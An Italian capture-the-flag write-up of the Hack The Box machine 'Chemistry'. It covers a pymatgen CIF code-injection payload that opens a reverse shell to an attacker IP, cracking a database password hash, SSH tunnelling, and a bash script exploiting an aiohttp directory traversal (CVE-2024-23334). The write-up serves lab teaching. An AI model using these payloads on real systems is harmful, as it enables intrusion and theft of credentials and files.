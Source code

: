 # Writeup: Chemistry

**Autore**: Luca Crippa  
**Data**: 2024-12-02

## Overview
- **Categoria**: Linux, Web
- **Difficoltà**: Intermedia
- **IP Target**: `10.10.11.38`
- **Servizi in Ascolto**:
  - **22/tcp**: SSH
  - **5000/tcp**: Web Application

## 1. Connessione al Servizio HTB
Dopo aver scaricato e configurato il file `.ovpn` per la VPN di Hack The Box, eseguiamo:
```bash
sudo openvpn --config lab_fazelucq.ovpn
```
Una volta connessi, identifichiamo l’indirizzo della macchina target, in questo caso `10.10.11.38`.

## 2. Scansione Nmap
Eseguiamo una scansione Nmap sull’host:
```bash
sudo nmap -sS 10.10.11.38
```
**Output**:
```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Sono presenti le porte **22** (SSH) e **5000** (servizio web).

## 3. Analisi del Servizio Web (Porta 5000)
Visitiamo `http://10.10.11.38:5000`. L’applicazione permette di registrarsi o loggarsi, e successivamente di caricare file in formato **CIF** (Crystallographic Information File).
![image](https://github.com/user-attachments/assets/e21f468b-8d74-4cf9-b7da-8fa42cfdffa8)
![image](https://github.com/user-attachments/assets/bc8b4268-fb2d-4817-9d73-d20b4ff877e4)



### 3.1 Reverse Shell tramite CIF
Analizzando la documentazione di **pymatgen**, scopriamo una vulnerabilità (documentata anche su GitHub) che permette l’esecuzione di codice arbitrario se si inserisce una linea particolare nel file `.cif`.



#### 3.1.1 Esempio di File `.cif`
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```
Al file `.cif` legittimo aggiungiamo una riga contenente il payload di reverse shell, sfruttando la vulnerabilità:
```cif
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__(* [().__class__.__mro__[1]]+["__sub" + "classes__"])() if d.__name__ == "BuiltinImporter"][0].load_module("os").system("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.37/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
> **Nota**: Sostituire `10.10.14.37` con il proprio IP VPN e **4444** con la porta preferita.

#### 3.1.2 Avvio del Listener
Apriamo un listener sulla porta 4444:
```bash
nc -lvnp 4444
```

#### 3.1.3 Upload & Esecuzione
Carichiamo il file `.cif` modificato sul sito. Dopodiché, clicchiamo su **VIEW** per forzare l’analisi del file. Questo attiverà la vulnerabilità, inviandoci una reverse shell:

```bash
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.38] 54562
sh: 0: can't access tty; job control turned off
$ whoami
app
```
Ora disponiamo di una shell come utente `app`.

## 4. Lettura del Database e Raccolta Credenziali
All’interno della home di `app`, troviamo `database.db`. Leggiamolo con:
```bash
cat /home/app/instance/database.db
```
Nel contenuto, scorgiamo varie credenziali con hash. Esempio:
```
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5
...
```
![image](https://github.com/user-attachments/assets/e780446d-a465-4991-acce-85269029190a)

Confrontiamo l’hash su siti come [CrackStation](https://crackstation.net/) o usiamo `hashcat`. Otteniamo:
```
Mrosa: unicorniosrosados
```

## 5. Accesso come Rosa
Utilizziamo la password di `rosa` per connetterci via SSH:
```bash
ssh rosa@10.10.11.38
rosa@10.10.11.38's password: 
```
Siamo ora loggati come `rosa`.  
**Flag User**:  
```bash
cat /home/rosa/user.txt
08269138f937793e4f33369b7242a827
```

## 6. Privilege Escalation
Per ottenere i privilegi di root, analizziamo il sistema con **linpeas**. Notiamo un servizio in ascolto su `127.0.0.1:8080`.

![image](https://github.com/user-attachments/assets/d1a1804f-2887-4a1d-b871-254285605dfc)


### 6.1 Port Forwarding
Facciamo un tunnel locale:
```bash
sudo ssh -L 7000:127.0.0.1:8080 rosa@10.10.11.38 -fN
```
Ora `http://127.0.0.1:7000` ci mostra il servizio in esecuzione internamente su `8080`.

![image](https://github.com/user-attachments/assets/1ec8b47e-28a9-47f7-8ece-c27e13030e6d)


### 6.2 Directory Traversal Exploit (CVE-2024-23334)
Dai **header** notiamo `Python/3.9 aiohttp/3.9.1`, vulnerabile a un attacco di Directory Traversal. Eseguiamo uno script per tentare il traversal e leggere `root.txt`:

```bash
#!/bin/bash
url="http://127.0.0.1:7000"
string="../"
payload="/assets/"
file="root/root.txt" # senza lo slash iniziale

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
Lo script incrementa i `../` finché non trova il file. Alla terza iterazione, otteniamo **200 OK** e il contenuto di `/root/root.txt`.

**Flag Root**:
```
8541882c7aedf25f17f8a1c8a24757ab
```

## Flag 🏁
- **User**: `08269138f937793e4f33369b7242a827`
- **Root**: `8541882c7aedf25f17f8a1c8a24757ab`

## Lezioni Apprese 📚
1. **Vulnerabilità in Formati di File**: Il caricamento di file `.cif` malformati ha consentito l’esecuzione di codice arbitrario.  
2. **Analisi di Database Interni**: Spesso le credenziali si trovano in chiaro o sotto forma di hash recuperabili.  
3. **Port Forwarding e Servizi Locali**: L’uso di SSH tunnel ci ha permesso di accedere a servizi interni (localhost:8080).  
4. **Directory Traversal**: Alcuni framework web possono essere vulnerabili a percorsi come `/assets/../../root.txt`.

## Tools Utilizzati 🛠️
- **OpenVPN**: Connessione a HTB  
- **Nmap**: Scansione delle porte  
- **pymatgen**: Ricerca della vulnerabilità CIF  
- **Reverse Shell**: `nc -lvnp 4444`  
- **Linpeas**: Privilege Escalation Analysis  
- **SSH Tunnel**: Forwarding della porta 8080  
- **CURL**: Directory Traversal

---

*Writeup by Luca Crippa - Last Updated: 2024*

